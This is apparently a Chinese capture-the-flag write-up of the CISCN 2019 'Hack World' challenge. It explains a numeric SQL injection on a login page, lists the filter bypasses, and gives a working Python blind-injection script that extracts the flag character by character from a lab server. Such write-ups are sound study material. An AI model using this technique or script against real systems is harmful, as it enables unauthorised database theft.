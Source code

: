 # 2021/07/12

## Hack World

> CISCN 2019 华北赛区

### 题目

进去是一个登录页面，输入试一下，发现1,2是正常回显，之后就不是了，很明显是一个数字型的注入

![202107121](img/20210712/202107121.png)

测试一下过滤了哪些字符，`space`,`union`,`|`,`%`等被过滤掉了，但是`()`,`ascii`,`database()`,`substr()`等并没有被过滤，关键是把后面和前面连接起来，这里有两种方法

- `^`
- 直接等于，因为是数字型

盲注跑脚本就可以了

### payload

```python
import requests
import base64
import sys
import string
import hashlib
import io
import time

x = string.printable
flag = ""
url = "http://2ab3de45-45ff-4613-8d75-e1d644e26d7d.node4.buuoj.cn/index.php"
payload={
	"id" : ""
}
try:
	for i in range(0,60):
		for j in x:
			payload["id"] = "(ascii(substr((select(flag)from(flag)),%s,1))=%s)"%(str(i),ord(j))
			s = requests.post(url,data=payload)
			#print(j)
			if "Hello" in s.text:
				flag += j
				print(flag)
				break
			else:
				time.sleep(0.5)
except:
	print(flag)
```
